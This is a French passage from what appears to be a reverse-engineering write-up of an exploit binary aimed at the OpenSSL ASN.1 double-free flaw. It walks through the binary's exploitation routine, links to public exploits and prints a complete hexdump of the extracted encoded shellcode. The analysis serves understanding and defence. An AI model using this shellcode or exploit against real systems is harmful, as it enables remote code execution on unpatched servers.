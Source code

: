 D'après l'output du programme, la faille exploité est *OpenSSL ASN1 deallocation* qui semble être plus connue sous le nom [OpenSSL ASN.1 Parsing Vulnerabilities](http://www.securityfocus.com/bid/8732/info).  

La [description CVE de cette vulnérabilité](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CAN-2003-0545) est la suivante :  

> Double-free vulnerability in OpenSSL 0.9.7 allows remote attackers to cause a denial of service (crash) and possibly execute arbitrary code via an SSL client certificate with a certain invalid ASN.1 encoding.

Cette description s'accorde bien avec l'option `-z` du programme.  

Certains exploits existent déjà pour cette vulnérabilité comme [un brute forcer](http://downloads.securityfocus.com/vulnerabilities/exploits/ASN.1-Brute.c) ou le [openssl-too-open](http://www.phreedom.org/solar/exploits/apache-openssl/) de *Solar Eclipse* dont certaines parties de code ont (à mon avis) été reprises pour ce binaire.  

*Core Impact* a à priori aussi un exploit pour cette vulnérabilité, je ne serais pas surpris qu'il y ait aussi des similitudes avec celui-ci.  

## Pwnage

Maintenant que la connexion sécurisée a été établie, la phase d'exploitation commence vraiment.  

La fonction `exploit` fait une bonne taille. Elle prend 4 arguments, le premier étant le socket, le second un offset (adresse de retour) et le quatrième est notre variable `leet` qui permet d'activer le mode verbeux. A l'heure actuelle le rôle du troisième argument m'échappe toujours.  

Comme pour `read_handshake`, de nombreuses opérations sont effectuées sur des buffers. La première étape est la lecture de données venant du serveur puis le calcul d'un buffer baptisé `mega_buf1`, modifié en fonction du protocole (SSL3 ou TLS1) pour répondre au serveur.  

D'autres paquets de données sont envoyés dans la foulée (`mega_buf2` et `mega_buf3`) donc le rôle semble être totalement protocolaire.  

Le programme effectue ensuite une pause d'une seconde avant d'envoyer le shellcode ainsi que l'offset.  

## Shellcoding fun

Voici un hexdump du shellcode une fois extrait du binaire :  

```plain
90 90 90 90 90 90 90 90  90 90 90 90 90 90 90 90  |................|
eb 0e 5a 4a 31 c9 b1 99  80 34 11 fa e2 fa eb 05  |..ZJ1....4......|
e8 ed ff ff ff 13 7d fa  fa fa a5 cb 33 4f fe 73  |......}.....3O.s|
31 ab cb 33 4b f9 cb 28  cb 3a 4a cd 37 7a 73 3c  |1..3K..(.:J.7zs<|
73 38 7a 34 f2 bb cb 3a  4a cd 37 7a 73 30 77 b5  |s8z4...:J.7zs0w.|
f2 73 2a b2 37 7a 73 2b  73 08 cb 3a 4a cd 37 7a  |.s*.7zs+s..:J.7z|
a3 7b 85 f2 94 9f 8c 9f  8e fe 18 39 11 47 cb 3a  |.{.........9.G.:|
aa 92 8d ca ca 8e 73 1b  4a fe 73 38 37 7a cb 33  |......s.J.s87z.3|
cb 3a 4a c5 37 7a bb cb  3a 4a c5 37 7a bb cb 3a  |.:J.7z..:J.7z..:|
4a c5 37 7a 73 01 73 a5  f2 cb 3a 73 bd f6 72 bd  |J.7zs.s...:s..r.|
fd cb 28 77 b5 f2 4a f1  37 7a cb 21 73 22 ba 37  |..(w..J.7z.!s".7|
7a 12 8e 05 05 05 d5 98  93 94 d5 89 92 c5 00     |z..............|
```
